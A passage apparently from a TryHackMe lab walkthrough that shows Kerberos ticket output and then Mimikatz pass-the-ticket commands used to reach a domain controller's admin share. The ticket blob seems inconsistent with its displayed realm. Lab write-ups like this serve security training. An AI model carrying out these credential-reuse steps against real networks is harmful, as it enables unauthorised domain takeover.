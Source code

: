 ```
             vboJiLvWKgXkx7VaKbcLhO743BNYyq57nPNvWhVt3jbFmEq4nTdNou6hQHG4O5hVMhBKGgTwYz3yFPOP
             iuxroniQawSUJbmwObxVeoculPhxEJ69MSgKROTXrKrQAJ84D5QJHQYZus6w+LtodZn1//ZLhgILeFsY
             5K6d4ot2eqEr/A4Vu+wFjGjw87FTvHVcf8HdtGhqkawtPOrzo4HxMIHuoAMCAQCigeYEgeN9geAwgd2g
             gdowgdcwgdSgKzApoAMCARKhIgQgQr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVWhERsPTFVO
             QVIuRVJVQ0EuQ09NohcwFaADAgEBoQ4wDBsKc3ZjLmdpdGxhYqMHAwUAQOEAAKURGA8yMDIyMDIwNjE3
             NTQ0NlqmERgPMjAyMjAyMDcwMzU0NDZapxEYDzIwMjIwMjEzMTc1NDQ2WqgRGw9MVU5BUi5FUlVDQS5D
             T02pJDAioAMCAQKhGzAZGwZrcmJ0Z3QbD2x1bmFyLmVydWNhLmNvbQ=
       
         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             : ZA.TRYHACKME.LOC
         UserName                 : Adminsitrator
         UserRealm                : ZA.TRYHACKME.LOC
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```
      

Now we can use Mimikatz to load the TGT and authenticate to THMDC:

```
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye!

C:\Tools>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
```